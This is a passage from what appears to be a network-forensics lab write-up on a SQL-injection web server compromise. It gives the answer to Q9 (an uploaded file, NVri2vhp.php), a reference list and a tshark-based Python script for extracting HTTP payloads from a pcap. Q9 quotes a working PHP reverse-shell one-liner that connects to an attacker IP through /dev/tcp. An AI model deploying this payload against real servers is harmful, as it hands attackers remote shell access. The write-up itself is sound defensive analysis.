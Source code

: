 ### Q9. We need to determine if the attacker gained further access or control of our web server. What's the name of the malicious script uploaded by the attacker?

Attacker create and upload file with a reverse shell to gain further access from compromised web server to C&C: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>`

![{C61C8527-DCC9-42D4-953B-793FE44EC322}](https://github.com/user-attachments/assets/deec52e9-0025-49f3-9b58-f3f821c8a057)

**Answer: NVri2vhp.php**


## References

- [1] SQL Injection: https://portswigger.net/web-security/sql-injection
- [2] Tshark: https://www.wireshark.org/docs/man-pages/tshark.html
- [3] Gobuster: https://github.com/OJ/gobuster
- [4] sqlmap: https://sqlmap.org/
- [5] Full code:
```
import subprocess

# Define the path to the pcap file and the tshark command
pcap_file = "WebInvestigation.pcap"
tshark_path = "tshark"      # Adjust this path if necessary or using just "tshark" if it's in PATH variable environment

# Read parameters from file (one URI per line)
with open("parameter_values.txt", "r", encoding="utf-8") as f:
    parameters = [line.strip() for line in f if line.strip()]

for parameter in parameters:
    # Escape special characters in the URI for the filter
    escaped_param = parameter.replace('"', '\\"')
    
    # Build the tshark command
    command = [
        tshark_path,
        "-r", pcap_file,
        "-Y", f'(ip.dst == 111.224.250.131) && (http.response.code == 200) && (http.request.uri == "{escaped_param}")',
        "-T", "fields",
        "-e", "http.file_data"
    ]

    try:
        # Run the command
        result = subprocess.run(command, capture_output=True, text=True, check=True)
        
        # Process the output
        if result.stdout:
            # Remove whitespace and check if it's hex data
            output = result.stdout.strip()
            if output:
                try:
                    # Try to decode as hex first
                    decoded = bytes.fromhex(output).decode('utf-8', errors='replace')
                    print(f"\nMatch found for URI: {parameter}")
                    print("Decoded file_data:")
                    print(decoded)
                except ValueError:
                    # If not hex, print as-is
                    print(f"\nMatch found for URI: {parameter}")
                    print("File_data (raw):")
```